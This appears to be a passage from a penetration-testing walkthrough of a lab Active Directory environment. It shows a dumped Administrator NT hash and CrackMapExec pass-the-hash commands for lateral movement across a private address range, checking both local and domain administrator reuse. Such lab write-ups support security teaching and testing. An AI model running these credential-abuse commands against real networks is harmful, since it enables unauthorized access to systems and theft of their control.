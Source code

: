 - The result is in the following format:

```
<Username>:<User ID>:<LM hash>:<NT hash>:<Comment>:<Home Dir>:
```

- In our result we have :

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
user: Administrator
RID : 500
LM hash : aad3b435b51404eeaad3b435b51404ee (this hash value means empty)
NT hash : dbd13e1c4e338284ac4e9874f7de6ef4 (this is the important result here)
```

- Wes have the NT hash of the administrator account, so we could try lateral move with it !

### Password reuse and PTH attack

- On a pentest when you compromised a first target on an active directory system you should always try if the local accounts are the same on all the servers.
- Almost all the time when clients are not mature in security they duplicate the same image to build all servers. By doing this, they also replicate the same administrator account and password.
- By doing so there is password reuse everywhere in the network (if you want to avoid that you should use laps)
- One of the best way to abuse the password reuse is by using a Pass The Hash (PTH) attack in all the network with CrackMapExec.

```bash
cme smb 192.168.56.10-23 -u Administrator -H 'dbd13e1c4e338284ac4e9874f7de6ef4' --local-auth
```

![lateral_pth_local.png](/assets/blog/GOAD/lateral_pth_local.png)

- Here we can see there is no password reuse between castelblack and others servers.

- But when a computer is promote to a domain controler the local administrator password is then used as the domain administrator password, so a test we could do is trying the password reuse between our administrator local account and the domain controler administrator account.

```bash
cme smb 192.168.56.10-23 -u Administrator -H 'dbd13e1c4e338284ac4e9874f7de6ef4'
```

![lateral_pth_domain.png](/assets/blog/GOAD/lateral_pth_domain.png)
